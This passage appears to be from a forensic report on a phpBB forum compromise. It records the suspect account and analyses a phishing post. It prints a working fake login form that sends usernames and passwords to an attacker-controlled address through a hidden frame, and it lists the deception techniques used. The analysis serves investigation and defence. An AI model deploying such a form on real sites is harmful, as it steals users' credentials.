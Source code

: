**User Account Details:**
* **Username:** `appolo1`
* **Email:** `apoole1@contractor.net`
* **Registration IP:** 10.10.0.78
* **Account Type:** Standard user with posting privileges

### 4.3 Social Engineering Payload Analysis

**Deployment Method:** Forum post creation at 25/Apr/2023 13:17:22
**Content Type:** HTML-embedded credential harvesting form
**Target URL:** `http://10.10.0.78/update.php`

**Malicious Form Structure:**
```html
<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
    <div class="panel">
        <div class="inner">
            <div class="content">
                <h2 class="login-title">Login</h2>
                <fieldset class="fields1">
                    <dl>
                        <dt><label for="username">Username:</label></dt>
                        <dd><input type="text" tabindex="1" name="username" id="username" size="25" value="" class="inputbox autowidth"></dd>
                    </dl>
                    <dl>
                        <dt><label for="password">Password:</label></dt>
                        <dd><input type="password" tabindex="2" id="password" name="password" size="25" class="inputbox autowidth" autocomplete="off"></dd>
                    </dl>
                    <dl>
                        <dd><label for="autologin"><input type="checkbox" name="autologin" id="autologin" tabindex="4">Remember me</label></dd>
                        <dd><label for="viewonline"><input type="checkbox" name="viewonline" id="viewonline" tabindex="5">Hide my online status this session</label></dd>
                    </dl>
                    <dl>
                        <dt>&nbsp;</dt>
                        <dd><input type="submit" name="login" tabindex="6" value="Login" class="button1" onclick="sethidden()"></dd>
                    </dl>
                </fieldset>
            </div>
        </div>
    </div>
</form>
```

**Social Engineering Techniques:**
* **Session Timeout Pretext:** "Your session token has timed out in order to proceed you must login again"
* **Visual Mimicry:** Identical styling to legitimate phpBB login forms
* **Hidden Frame Target:** `target="hiddenframe"` for covert credential submission
* **JavaScript Execution:** `onclick="sethidden()"` for additional obfuscation
